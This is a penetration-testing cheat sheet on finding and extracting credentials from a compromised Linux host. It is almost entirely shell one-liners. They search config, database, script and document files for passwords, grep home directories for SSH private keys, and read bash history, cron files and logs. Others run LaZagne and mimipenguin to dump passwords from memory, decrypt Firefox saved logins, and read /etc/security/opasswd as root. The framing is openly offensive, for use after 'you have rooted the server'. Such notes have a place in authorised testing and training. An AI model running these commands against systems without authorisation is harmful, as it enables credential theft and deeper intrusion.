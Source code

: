 -- -
### Search for credentials in file name or inside files
```bash
# find "credentials" string in file name
find <location> -name *<str>*
find /mnt/Finance/ -name *cred*

# find "cred" within a file
grep -rn <location> -ie <str>
grep -rn /mnt/Finance/ -ie cred
```
### Config Files
See if there are any config files on the system and see if they hold any credentials.
```bash
# search for config files and output path to found config files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Search for config files then search its contents for term "user", "password", and "pass"
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
### DB files
Search for database files that may hold credential info on it.
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
### Notes
Harder to define since notes files can be named anything with any number of extensions or no file extension at all. In this example, we will search for txt files and files with no extension.
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
### Scripts
As an automation engineer you should know that automated scripts usually require a set of credentials to run automatically and that engineers love to just put that into files
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
### Cronjobs
Same areas to look as priv esc using cronjobs, but here the goal is to see if the automated jobs have credentials associated with it.
```bash
# will show any custom files and what not
cat /etc/crontab

# Scripts and files used by cron will be located at the following llocation for debian-based systems
ls -la /etc/cron.*/

# then look through any interesting files to see if anyone left credentials in the files. 
```
### SSH Keys
```bash
# private keys
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

# public keys
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
### Bash History
```bash
tail -n5 /home/*/.bash*
```
### Protected Files
Files that may have something juicy in them but are encrypted. May or may not actually be encrypted.
```bash
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
### Logs
The following are log file locations and a short description of why they exist:

|**Log File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|
Searching log file contents:
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
### Memory
Using this tool require root privileges so it's purely a process to try after you have rooted the server. 
```bash
#LaZagne
sudo python2.7 laZasgne.py all

# mimipenguin
sudo python3 mimipenguin.py
sudo bash mimipenguin.sh
```
### Browsers
```bash
# LaZagne
python3 laZagne.py browsers

# manual
ls -l .mozilla/firefox/ | grep default

# then lets say one of the directorys spit out was: 1bplpd86.default-release
# cat out the logins.json file from that directory
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

# decrypt password
# you will give it the file locations you want to try. Will auto-find the directories.
python3.9 firefox_decrypt.py
```
### Old User Passwords
The PAM library (how most auth on linux works) can prevent users from reusing old passwords, which means it saves old passwords somewhere. This file can only be read with root privs so keep that in mind.
```bash
sudo cat /etc/security/opasswd
```